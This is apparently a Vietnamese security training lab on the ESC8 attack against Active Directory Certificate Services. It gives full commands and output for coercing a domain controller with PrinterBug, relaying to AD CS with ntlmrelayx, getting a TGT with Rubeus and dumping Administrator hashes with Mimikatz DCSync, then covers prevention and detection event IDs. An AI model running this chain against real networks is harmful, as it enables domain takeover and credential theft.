










# Skills Assessment (Bài đánh giá kỹ năng)


# Mô tả

Tiếp nối kịch bản tấn công liên quan tới PKI từ section trước, một tấn công khác ta có thể lạm dụng là relay tới `ADCS` để lấy certificate, một kỹ thuật được biết đến với tên `ESC8`.

Trước đây, ta đã dùng `PrinterBug` và `Coercer` để khiến (hoặc ép) các computer kết nối tới bất kỳ computer nào khác. Trong kịch bản này, ta sẽ sử dụng `PrinterBug,` và với kết nối reverse nhận được, ta sẽ relay tới ADCS để lấy certificate cho máy mà ta đã ép (coerce).

---

# Tấn công

Ta bắt đầu bằng cách cấu hình `NTLMRelayx` để chuyển tiếp các kết nối đến vào HTTP endpoint của Certificate Authority. Là một phần của cấu hình này, ta sẽ chỉ định rằng ta muốn lấy certificate cho Domain Controller (một template mặc định trong AD, mà các Domain Controller dùng để client authentication). Cờ `--adcs` khiến `NTLMRelayx` phân tích và hiển thị certificate nếu nhận được:

```shell-session
[!bash!]$ impacket-ntlmrelayx -t http://172.16.18.15/certsrv/default.asp --template DomainController -smb2support --adcs

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server

[*] Setting up RAW Server on port 6666
[*] Servers started, waiting for connections
```



Bây giờ ta cần khiến Domain Controller kết nối tới ta. Ta sẽ dùng bug `Print Spooler` và ép một kết nối reverse về phía ta (như đã làm ở một lab trước). Trong trường hợp này, ta đang ép DC2 kết nối tới máy Kali trong khi để `NTLMRelayx` lắng nghe ở một terminal khác:

```shell-session
[!bash!]$ python3 ./dementor.py 172.16.18.20 172.16.18.4 -u bob -d eagle.local -p Slavi123

[*] connecting to 172.16.18.4
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] done!
```



Nếu quay lại terminal của `NTLMRelayx`, ta sẽ thấy một yêu cầu đến từ `DC2$` đã được relay và một certificate đã được lấy thành công:

```shell-session
[*] SMBD-Thread-5 (process_request_thread): Received connection from 172.16.18.4, attacking target http://172.16.18.15
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://172.16.18.15 as EAGLE/DC2$ SUCCEED
[*] SMBD-Thread-7 (process_request_thread): Connection from 172.16.18.4 controlled, but there are no more targets left!
[*] SMBD-Thread-8 (process_request_thread): Connection from 172.16.18.4 controlled, but there are no more targets left!
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 48
[*] Base64 certificate of user DC2$: 
MIIRbQIBAzCCEScGCSqGSIb3DQEHAaCCERgEghEUMIIREDCCB0cGCSqGSIb3DQEHBqCCBzgwggc0AgEAMIIHLQYJKoZIhvcNAQcBMBwGCiqGSIb3DQEMAQMwDgQIKetNs6FxjOQCAggAgIIHANV1B7
...
...
...
awlkK4goAPpDmzA9MDEwDQYJYIZIAWUDBAIBBQAEIFRQPz8lJcfLnaSLiZE6XHwdBfhN0CvXA6VfHQyHXUjRBAjoidjhENa0Kg==

```



Ta sẽ sao chép certificate mã hóa base64 lấy được, chuyển sang máy Windows, và dùng `Rubeus` để xác thực bằng certificate (lần này certificate đã ở đúng định dạng) và lấy một TGT:

```powershell-session
.\Rubeus.exe asktgt /user:DC2$ /ptt /certificate:MIIRbQIBAzCCEScGCSqGSI<SNIP>

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=DC2.eagle.local
[*] Building AS-REQ (w/ PKINIT preauth) for: 'eagle.local\DC2$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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
      BmtyYnRndBsLZWFnbGUubG9jYWw=
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/eagle.local
  ServiceRealm             :  EAGLE.LOCAL
  UserName                 :  DC2$
  UserRealm                :  EAGLE.LOCAL
  StartTime                :  19/12/2022 23.43.15
  EndTime                  :  20/12/2022 09.43.15
  RenewTill                :  26/12/2022 23.43.15
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  SICrZ4HjAjHqvZh03xo99w==
  ASREP (key)              :  BFC00B974546271BF0C6ACAC32447EB6
```





Ta đã lấy được một TGT cho Domain Controller DC2. Do đó ta trở thành DC2. Là một Domain Controller, giờ ta có thể kích hoạt `DCSync` bằng `Mimikatz`:

```powershell-session
.\mimikatz_trunk\x64\mimikatz.exe "lsadump::dcsync /user:Administrator" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /user:Administrator
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 01/01/1601 01.00.00
Password last change : 07/08/2022 20.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8


mimikatz(commandline) # exit
Bye!
```



---

# Phòng ngừa

Tấn công trên khả thi vì:

- Ta ép (coerce) được DC2 thành công
- ADCS web enrollment không bắt buộc HTTPS (nếu có, relaying sẽ thất bại và ta sẽ không yêu cầu được certificate)

Vì có nhiều kỹ thuật leo thang khác nhau liên quan tới PKI, rất nên quét môi trường định kỳ bằng `Certify` hoặc các công cụ tương tự khác để tìm các vấn đề tiềm tàng.

---

# Phát hiện

Tấn công này cung cấp nhiều kỹ thuật để phát hiện. Nếu bắt đầu từ phần một certificate được yêu cầu bởi `NTLMRelayx`, ta sẽ thấy CA đã gắn cờ cả yêu cầu lẫn bên cấp certificate lần lượt trong các event ID `4886` và `4887`:





Điều nổi bật là tên template được nêu như một phần của yêu cầu; tuy nhiên nó không được nêu nếu yêu cầu đến từ chính Domain Controller (không relay). Có thể có một số ngoại lệ với điều này trong một môi trường; vì vậy, tốt nhất nên kiểm tra xem liệu nó có thể được dùng như một indicator để gắn cờ các tấn công coercing/relaying tới ADCS hay không.

Tiếp theo, trong tấn công, ta đã dùng certificate lấy được để lấy một Kerberos TGT, dẫn tới event ID `4768`:



Điều nổi bật là `XX` đang cố đăng nhập bằng certificate, và địa chỉ IP không phải của DC.

Cuối cùng, khi ta dùng `Mimikatz` để thực hiện DCSync, ta sẽ thấy event ID `4624` cho thấy `XX` đã xác thực thành công từ một địa chỉ IP khác chứ không phải của chính nó:



---

<div class="card bg-light">
    <div class="card-body">
				 <p class="mb-0">Vui lòng chờ 7-10 phút sau khi spawn target của câu hỏi bên dưới trước khi yêu cầu/tạo bất kỳ AD certificate nào!</p>
    </div>
</div>
